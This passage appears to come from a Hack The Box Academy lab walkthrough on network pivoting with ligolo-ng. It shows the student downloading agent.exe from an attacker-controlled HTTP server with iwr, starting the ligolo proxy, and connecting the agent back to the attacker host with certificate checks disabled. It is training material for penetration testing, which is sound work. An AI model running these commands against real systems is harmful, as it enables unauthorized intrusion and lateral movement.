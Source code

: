 Students will open `PowerShell` and will download the `agent.exe` executable:

Code: powershell

```powershell
iwr -uri http://PWNIP:8000/agent.exe -o agent.exe
```

```powershell-session
PS C:\Users\helen> iwr -uri http://10.10.15.174:8000/agent.exe -o agent.exe
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `ligolo`'s proxy:

Code: shell

```shell
./proxy -selfcert
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ ./proxy -selfcert

WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: A910475F1FBB2F071C47BC3CCF0685188A816C82CB654A25505479E67071293B 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.6.2

ligolo-ng » 
```

Subsequently, students will return to the RDP session to establish the dynamic port-forwarding using the agent previously transferred:

Code: powershell

```powershell
.\agent.exe -connect PWNIP:11601 -ignore-cert
```

```powershell-session
PS C:\Users\helen> .\agent.exe -connect 10.10.14.221:11601 -ignore-cert

time="2024-07-11T03:49:21-05:00" level=warning msg="warning, certificate validation disabled"
time="2024-07-11T03:49:21-05:00" level=info msg="Connection established" addr="10.10.14.221:11601"
```
